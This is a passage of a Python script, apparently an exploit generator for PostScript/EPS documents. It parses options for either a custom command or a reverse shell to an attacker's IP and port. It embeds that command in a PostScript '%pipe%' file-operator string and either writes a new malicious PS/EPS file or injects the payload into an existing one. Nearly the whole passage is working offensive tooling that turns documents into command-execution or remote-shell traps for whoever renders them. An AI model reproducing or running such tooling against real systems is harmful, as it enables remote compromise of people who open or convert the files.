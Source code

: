     args = parser.parse_args()

    # Validate payload options
    if args.revshell and args.payload:
        print("[-] Both --payload and --revshell cannot be used together.")
        return

    if args.revshell:
        # Validate IP and port for reverse shell payload
        if args.ip and args.port:
            ip_pattern = re.compile(r"^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$")
            port_pattern = re.compile(r"^\d{1,5}$")

            if not ip_pattern.match(args.ip) or not port_pattern.match(args.port):
                print("[-] Invalid IP address or port number.")
                return
        else:
            print("[-] For reverse shell payload, both IP and port are required.")
            return
        payload = generate_rev_shell_payload(args.ip, args.port)

    elif args.payload:
        payload = args.payload

    else:
        print("[-] Either --payload or --revshell is required.")
        return

    # Modify payload for embedding
    payload = f"(%pipe%{payload}) (w) file /DCTDecode filter"

    # Generate or inject payload
    if args.generate and args.inject:
        print("[-] Both -g/--generate and -i/--inject cannot be used together.")
    elif args.generate:
        if args.extension and (args.extension == "ps" or args.extension == "eps"):
            generate_payload_file(args.filename, args.extension, payload)
            print(f"[+] Generated {args.extension.upper()} payload file: {args.filename}.{args.extension}")
        else:
            print("[-] For generating files, specify valid extension using -x/--extension: 'ps' or 'eps'.")
    elif args.inject:
        if os.path.exists(args.filename):
            inject_payload_into_file(args.filename, payload)
            print(f"[+] Payload successfully injected into {args.filename}.")
        else:
            print(f"[-] File {args.filename} not found.")
    else:
        print("[-] Specify either -g/--generate or -i/--inject.")
